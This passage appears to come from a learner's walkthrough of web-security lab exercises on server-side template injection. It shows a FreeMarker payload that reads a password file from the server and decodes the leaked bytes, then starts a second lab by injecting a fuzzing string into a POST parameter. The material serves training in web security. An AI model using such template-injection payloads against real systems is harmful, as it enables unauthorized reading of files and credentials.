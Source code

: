   ```
  * ```
    `${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join("%20")}`
    
    Got -> 104 119 53 119 51 51 117 55 98 118 114 115 48 117 100 121 108 51 105 103
    
    This is decimal
    
    use decimal to ascii convert -> hw5w33u7bvrs0udyl3ig
    ```

    

* 



References =>

`https://www.rapidtables.com/convert/number/ascii-hex-bin-dec-converter.html`

`https://programmersought.com/article/32251827867/`

`https://ackcent.com/in-depth-freemarker-template-injection/`

`https://freemarker.apache.org/docs/api/freemarker/template/Template.html`





#### 7. Server-side template injection with a custom exploit =>



* After login i checked my account -> 2 Functionalities using -> Upload avatar and Prefered Name

* I changed preferred name to first name and uploaded random image 

* From image uploading got this ->

  * 

    ```
    PHP Fatal error:  Uncaught Exception: Error in file upload: 1 in /home/carlos/avatar_upload.php:6
    Stack trace:
    #0 {main}
      thrown in /home/carlos/avatar_upload.php on line 6
    ```



* Then i uploaded second good image but same error



* Also from blog post i saw comment section and use payload there

* I tried some payloads in comment section but not good result

* Then i tried payload in /my-account/change-blog-post-author-display post request of this parameter -> blog-post-author-display=user.first_name${{<%[%'"}}%\&csrf=2KMTFwczZgchz6sa2z8luFodAVMJetJG
  ```